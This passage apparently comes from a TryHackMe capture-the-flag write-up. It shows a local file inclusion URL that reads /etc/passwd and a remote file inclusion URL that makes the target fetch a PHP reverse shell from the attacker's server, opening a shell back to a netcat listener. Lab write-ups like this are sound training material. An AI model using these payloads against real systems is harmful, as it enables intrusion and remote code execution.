 We were able to successfully exploit this vulnerability by accessing the following URL and read sensitive information from the `/etc/passwd` file stored on the underlying Ubuntu system via File Inclusion:

```
http://10.10.232.150/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

![image](images/skynet-19.png)

With this access confirmed, we can then successfully exploit the same vulnerability, yet this time to gain a reverse shell by editing the php-reverse-shell.php (renamed it to shell.php) to connect back to our own TryHackMe tun0 IP address (OpenVPN interface) and specify a port to connect through.

![image](images/skynet-19b.png)

##### Source: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.

We started a Python HTTP server, set up a netcat listener, and then used the curl command with the complete shell URL to gain a reverse shell:

```
http://10.10.232.150/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$IP/shell.php?
```
